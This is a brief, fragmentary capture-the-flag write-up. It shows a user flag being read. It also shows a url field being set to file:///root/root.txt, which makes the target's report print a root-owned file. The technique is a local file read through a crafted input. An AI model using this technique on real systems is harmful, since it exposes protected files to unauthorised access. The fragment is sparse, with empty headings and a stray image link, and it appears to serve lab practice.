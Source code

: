 ## Hashes

## Password
```
cat user.txt
65dd1df0713b40d88ead98cf11b8530b
```

```
$ cat input
url = "http://127.0.0.1"

$ echo "url = \"file:///root/root.txt\"" > input

$ cat report
82c198ab6fc5365fdc6da2ee5c26064a

```
## Proof, Flags, Other
